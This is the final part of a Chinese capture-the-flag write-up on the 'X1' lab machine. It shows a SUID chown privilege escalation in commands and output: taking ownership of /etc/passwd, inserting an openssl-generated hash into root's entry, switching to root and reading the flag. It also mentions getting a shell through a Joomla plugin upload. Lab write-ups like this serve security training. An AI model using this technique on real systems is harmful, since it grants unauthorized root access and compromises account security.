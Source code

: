 ```shell
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

发现了 `/usr/bin/chown` 这个老朋友，并且有SUID权限。
查阅 GTFOBins ([https://gtfobins.github.io/gtfobins/chown/#suid](https://gtfobins.github.io/gtfobins/chown/#suid))：

![image-20250511223840468](https://7r1UMPH.top/image/20250511223840670.webp)

思路就是用 `chown` 把 `/etc/passwd` 的所有权改成 `www-data`，然后我们就可以编辑它，给root用户改个密码（或者直接添加一个带root权限的新用户）。

**生成密码哈希：**
在Kali上用 `openssl` 生成一个密码 `888888` 的哈希：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ openssl passwd 888888   
$1$FRnIm4sd$wXAhXRwWvKAL1viFFq.9A1
```

**开始操作：**
在 `www-data` 的Shell里：

1. 更改 `/etc/passwd` 的所有权：

   ```shell
   www-data@X1:/var/www/html/administrator$ chown www-data:www-data /etc/passwd
   ```

2. 编辑 `/etc/passwd` (如果目标机上有 `nano` 或 `vi` 就方便多了，没有的话就得想办法把内容弄出来改了再覆盖回去)：

   ```shell
   www-data@X1:/var/www/html/administrator$ nano /etc/passwd
   ```

   找到 `root` 用户那一行，通常是 `root:x:0:0:root:/root:/bin/bash`，把 `x` 替换成我们生成的哈希 `$1$FRnIm4sd$wXAhXRwWvKAL1viFFq.9A1`。
   修改后变成：`root:$1$FRnIm4sd$wXAhXRwWvKAL1viFFq.9A1:0:0:root:/root:/bin/bash`

   ![image-20250511224840653](https://7r1UMPH.top/image/20250511224840863.webp)
   保存退出。

3. 切换到 `root` 用户：

   ```shell
   www-data@X1:/var/www/html/administrator$ su -
   Password:  # 输入 888888
   root@X1:~# id
   uid=0(root) gid=0(root) groups=0(root)
   ```

   成功拿到 root 权限！

#### 4. 读取最终的 Flag

```shell
root@X1:~# cat /root/root.txt
flag{root-72c0cd908b77fd5a4d0c988f7e002431}    
```

搞定！

### 四、总结

这个 X1 靶机，前期信息收集阶段那个 UDP 80 端口的"鲨鱼"提示确实有点意思，没注意到的话估计得卡一会儿（我就是那个冤种）。拿到 Joomla 后台凭据后，上传插件 getshell 属于常规操作。最后的 `chown` SUID 提权也是比较经典的利用方式。整体来说，确实是“比较简单”，但过程还是挺有趣的。